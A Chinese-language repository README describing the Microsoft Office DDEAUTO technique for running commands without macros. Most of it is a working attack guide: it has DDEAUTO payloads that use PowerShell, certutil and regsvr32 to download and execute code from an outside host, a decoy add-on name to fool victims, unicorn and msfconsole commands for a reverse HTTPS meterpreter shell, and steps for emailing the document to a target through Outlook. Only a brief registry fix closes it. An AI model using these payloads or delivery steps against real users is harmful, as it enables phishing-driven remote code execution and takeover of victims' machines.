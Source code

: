 # Office DDE漏洞

## 漏洞简介

 Microsoft Office 动态数据交换功能 DDE 允许攻击者在目标设备执行任意代码。该功能无需用户启用宏命令或者内存溢出等问题即可展开攻击，但微软认为这个不是安全问题因此并未修复。微软公司认为 DDE 只是功能而非安全问题因此无法删除或修复，但可以在未来使用 DDE 功能时向用户发出提醒。

## 漏洞影响范围

Word

Excwl

Outlook

## 漏洞分析

Sensepost的安全研究专家在几天之前曾发布过一篇漏洞报告，根据该报告所描述的内容，当目标用户打开了一个经过特殊制作的Office文档时，该漏洞可以在不使用恶意宏的情况下在目标主机中触发命令执行。虽然攻击者在实现这种攻击的过程中，需要利用社会工程学技术来欺骗用户点击两到三个消息提示框中的“确认”按钮，但绝大多数的终端用户都还是非常好骗的。

研究人员发现，通过利用DDEAUTO功能所提供的参数，攻击者可以远程利用PowerShell在目标主机中下载恶意Payload。DDE是Inter-Process Communication（进程间通信-IPC）机制下的一种遗留功能，最早可以追溯到1987年，它可以与一个由其他基于Microsoft Windows程序所创建的文档建立一条动态数据交换（DDE）链接（当你更新DDE域时，DDE域会插入新的信息，链接文档将能够查看到该信息）。

SensePost的研究人员发现，除了指定一个类似Excel这样的应用程序之外，攻击者还可以将其他应用程序的任意参数当作DDE的第一个参数，并引用其他的argument作为第二个参数来使用（大小不能超过255个字节）。

## 漏洞POC

### Word

打开一个新的Word文档，按下组合键Ctrl+F9，在文档中出现的“{}”之后，将以下代码复制到两个大括号之间，然后保存成为一个文件：

    DDEAUTO c:\\windows\\system32\\cmd.exe "/k calc.exe"

更多Payload：

    DDEAUTO c:\Windows\System32\cmd.exe "/k powershell.exe -w hidden -nop -ep bypass Start-BitsTransfer -Source "http://willgenovese.com/hax/index.js"; -Destination "index.js" & start c:\WindowsSystem32cmd.exe /c cscript.exe index.js"
    DDEAUTO c:\windows\system32\cmd.exe "/k regsvr32 /s /n /u /i:http://willgenovese.com/hax/calc.sct scrobj.dll "
    DDEAUTO c:\windows\system32\cmd.exe "/k certutil -urlcache -split -f http://willgenovese.com/hax/test.exe && test.exe"
    DDEAUTO c:\Windows\System32\cmd.exe "/k powershell.exe -NoP -sta -NonI -W Hidden $e=(New-Object System.Net.WebClient).DownloadString('http://willgenovese.com/hax/evil.ps1');powershell -e $e "

除此之外，一个bash脚本并使用CactusTorch来自动化地在生成vbs/hta/js文件中生成反向HTTPS meterpreter Payload，你可以将它们插入到Word文档中以进行测试。脚本地址详见【CACTUSTORCH_DDEAUTO】目录。

研究发现，你还可以利用社会工程学技术来对程序所弹出的消息框信息进行处理，并增加用户点击“确认”的可能性。

    DDEAUTO "C:\\Programs\\Microsoft\\Office\\MSWord\\..\\..\\..\\..\\windows\\system32\\WindowsPowerShell\\v1.0\\powershell.exe -NoP -sta -NonI -W Hidden IEX (New-Object System.Net.WebClient).DownloadString('http://willgenovese.com/hax/evil.ps1'); # " "Microsoft Document Security Add-On"

虽然PowerShell webdl脚本可能更加容易实现一些，但是你可能会需要让你的Payload全部保存在一个文档之中，这样你就不需要再通过网络来调用额外的恶意代码了。Dave Kennedy已经更新了他的Unicorn Python脚本，该脚本可以生成一个msfvenom meterpreter Paload并当DDEAUTO被触发的时候得到一个base64 编码/解码的Payload。近期，Dave还修复了关于消息窗的问题。详情参见【unicorn】文件夹。

在Kali窗口中打开：

    IP=`ip -4 addr show eth0 | grep -oP '(?<=inet\s)\d+(\.\d+){3}'`
    git clone https://github.com/trustedsec/unicorn.git && cd unicorn
    python unicorn.py windows/meterpreter/reverse_https $IP 443 dde
    cat powershell_attack.txt  | xclip -selection clipboard | leafpad powershell_attack.txt

将上面这段Payload复制到Word文档之中，保存好文档之后将其发送给你的目标用户。接下来，在一个新的终端窗口中打开你的meterpreter handler来接收shell命令。

    IP=`ip -4 addr show eth0 | grep -oP '(?<=inet\s)\d+(\.\d+){3}'`
    msfconsole -qx "use exploit/multi/handler;set payload windows/meterpreter/reverse_https;set LHOST '$IP';set LPORT 443; set ExitOnSession false;exploit -j -z"

注：如果你需要修改你的外部IP地址，你可以更改其中的第一行代码：

    IP="$(dig +short myip.opendns.com @resolver1.opendns.com)"

### Outlook

你还可以在Outlook富文本电子邮件信息中触发这种功能，不过需要注意的是，对于Outlook 2013/2016来说，你需要在添加DDEAUTO Payload之前嵌入一个图片/表格/对象。

接下来跟之前一样，打开一个新的Word文档，然后按下键盘的组合键CTRL+F9，在文档中出现“{ }”之后将Payload拷贝到两个大括号之间，然后打开一个新的Outlook电子邮件信息。点击“格式化文本”（Format Text）标签，将消息格式修改为“富文本”（Rich Text）格式。

在消息内容（body）中任意复制粘贴一张图片文件。

从你的Word文档中复制DDEAuto Payload，将其粘贴到邮件内容（body）之中，然后输入收件人（目标用户）的邮件地址并点击发送按钮。接下来，Outlook会弹出一个DDE消息框，你只需要点击“取消”（No）即可。当你的目标用户收到这封电子邮件之后，除非他们点击了“回复”（Reply）按钮，否则将不会触发Payload的执行。如果他们点击了前两个消息框中的“确认”（Yes）按钮，则将会触发Payload的执行。

**更多情况参见：** [More1](http://willgenovese.com/office-ddeauto-attacks/) [More2](https://sensepost.com/blog/2017/macro-less-code-exec-in-msword/)

## 漏洞复现

参见上文。

## 修复方案

下载该注册表后双击打开再点击合并即可。
下载Disable_DDEAuto.reg文件。

